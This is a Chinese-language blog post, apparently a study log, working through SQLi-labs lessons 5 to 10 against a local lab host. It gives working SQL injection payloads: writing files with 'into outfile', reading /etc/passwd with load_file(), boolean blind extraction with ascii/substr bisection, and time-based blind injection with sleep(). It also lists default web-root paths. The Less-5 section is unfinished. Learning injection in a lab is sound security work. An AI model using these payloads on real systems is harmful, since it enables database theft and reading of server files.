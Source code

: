 ```yaml
---
layout: post
title: "「SQL注入入门篇」SQL注入（七）"
subtitle:   "为什么我是web安全菜鸡啊！！！"
date: 2016-10-26 12:00:00
author:     "许大仙"
tags:
    - web安全
---
```


<h2>Less-5(又乱了 此坑待填)</h2>
第五课到了报错注入和双注入，于是又折腾了好几天，花了很长时间理解原理和构造语句，仔细总结下吧。

<h3>形式</h3>
观察发现，在无错情况下只会显示“You are in...”，而在加单引号报错情况下才会显示一些信息。因此我们应该构造一个语句让他报错，在报错信息中把我们需要的其他信息带出来

<h3>知识点</h3>
<ul>
    <li>子查询</li>
    <li>Group by函数</li>
    <li>聚合函数</li>
    <li>rand()和floor()</li>
    <li>concat()</li>
</ul>

子查询：Select concat((<strong>select database()</strong>)); 这种形式就是多重查询，其中加粗部分会被优先执行，并将其结果返回给外层

Group by：

<h2>Less-7</h2>
第七课是通过outfile函数来下载数据库到外部文件，我们可以通过访问这个文件获取数据库中的信息，甚至可以通过与一些其他命令的结合来获取系统的密码文件等信息。

<h3>初步判断</h3>
正确的页面是"You are in...Use outfile"

<img src="http://oc42vgpoj.bkt.clouddn.com/less7_basic.png" />

报错的页面是"You have an error in your SQL syntax..."

<img src="http://oc42vgpoj.bkt.clouddn.com/less7_error.png" />

通过order by语句来先探查字段数目

<img src="http://oc42vgpoj.bkt.clouddn.com/less7_number.png" />

判断闭合方法（神特么能猜到==我还是太年轻）

<img src="http://oc42vgpoj.bkt.clouddn.com/less7_back2normal.png" />

<h3>条件</h3>
如果要正确的写入，需要以下几个条件：

<ul>
    <li>需要知道系统网站的默认路径，如果缺少了这个信息我们就看不到导出的文件</li>
    <li>需要知道字段数目，否则就不能正确的生成和到处文件</li>
    <li>需要注意路径名要用绝对路径，比如"/opt/lampp/htdocs/sqli/test.txt"，之前前面没有加斜杠被坑了很久</li>
    <li>可能还存在权限问题，比如某文件夹没有写入权限。这时候可以考虑下/tmp文件夹，这个由于是存放临时文件，一般都有写入权限，不过好像没啥用哈</li>
</ul>

一些常见网站配置的默认路径（从老大那里转载的）：

<ul>
    <li>WindowsServer IIS：c://inetpub/wwwroot/(asp)</li>
    <li>Linux Nginx：
<ul>
    <li>/usr/local/nginx/html</li>
    <li>/home/wwwroot/default</li>
    <li>/usr/share/nginx</li>
    <li>/var/www/html</li>
</ul>
</li>
    <li>Linux Apache：
<ul>
    <li>/var/www/htm</li>
    <li>/var/www/html/htdocs</li>
</ul>
</li>
    <li>Linux Xampp集成：/opt/lampp/htdocs/</li>
</ul>

<h3>写入语句</h3>
<pre class="lang:tsql decode:true" title="Payload">http://192.168.15.137/sqli/Less-7/?id=1')) union select 1,2,3 into outfile "
/opt/lampp/htdocs/sqli/Less-7/eee.txt" --+</pre>

<img src="http://oc42vgpoj.bkt.clouddn.com/less7_outfile.png" />

<img src="http://oc42vgpoj.bkt.clouddn.com/less7_result.png" />

<img src="http://oc42vgpoj.bkt.clouddn.com/less7_read.png" />

我们也可以通过load_file()函数来调用载入外部文件，例如可以去调用"/etc/passwd"文件，把他导出

<pre class="lang:default decode:true" title="Passwd">http://192.168.15.137/sqli/Less-7/?id=1'))  union select 1,2,load_file("/etc/passwd") into outfile 
"/opt/lampp/htdocs/sqli/Less-7/hehe.txt" --+
</pre>

玩法有很多，自己开发。

<h2>Less-8</h2>
基于布尔值的盲注

<h3>Length()</h3>
用于输出所选内容的长度，例如<code>select length("hahaha")</code>显示结果为6

<h3>Substr()</h3>
substr(str, pos, len) 该函数用于截断字符串，第一个参数是所需切分的字符串，第二个选项是起点，第三个选项是步长。需要注意的是，pos是从1开始的。例如<code>select substr("hello"),1,2</code>显示结果应该是"he"

<h3>Ascii()</h3>
ascii(str) 该函数接受字符，并将其转化为ASCII码，这样能方便我们用二分法更快的查找正确的字符对应的ASCII码，这样就能获取到字符的信息

<h3>特征</h3>
可以看到我们正常访问时有提示"You are in..."，但如果报错的话就没有回显。我们能得到的信息只有布尔值，因此称之为基于布尔值的注入。

<h3>Payload</h3>
<pre class="lang:tsql decode:true" title="Payload">?id' and (select ascii(substr(database(),1,1)) &gt; 100)--+ //true
?id' and (select ascii(substr(database(),1,1)) &lt; 150)--+ //true
?id' and (select ascii(substr(database(),1,1)) &gt; 125)--+ //false
?id' and (select ascii(substr(database(),1,1)) &gt; 112)--+ //true
?id' and (select ascii(substr(database(),1,1)) &gt; 118)--+ //false
?id' and (select ascii(substr(database(),1,1)) = 115)--+ //true</pre>

二分法查找，同理可猜测其他字符

<strong>脚本自动化盲注</strong>

<h2>Less-9&amp;Less-10</h2>
单引号型基于时间的盲注，或双引号（逃

<h3>Sleep()</h3>
sleep(int) 该函数接受一个整数作为参数，运行成功后会将整个程序挂起若干秒。因此我们可以在无回显时用这个来作为payload是否执行的标志。

<h3>If()</h3>
if(expr1, expr2, expr3) 该函数接受三个参数，当expr1为真时，返回expr2，否则返回expr3的结果。

<h3>判断闭合情况</h3>
<pre class="lang:tsql decode:true " title="Determin">id=1 and sleep(10) +--+
id=1' and sleep(10) +--+
id=1') and sleep(10) +--+
id=1" and sleep(10) +--+
id=1") and sleep(10) +--+</pre>

<h3>Payload</h3>
<pre class="lang:default decode:true " title="Payload">id=1' and (select if(ascii(substr((select table_name from information_schema.tables 
where table_schema=database() limit 0,1),1,1))=111,sleep(10),NULL))--+</pre>

<hr />
系统崩了，重装前忘了备份这个文件...

于是大半夜重写了一遍啊啊啊啊啊

嗯，受某人影响还是觉得应该改改自己的性格。做一件事就做到最好。

&nbsp;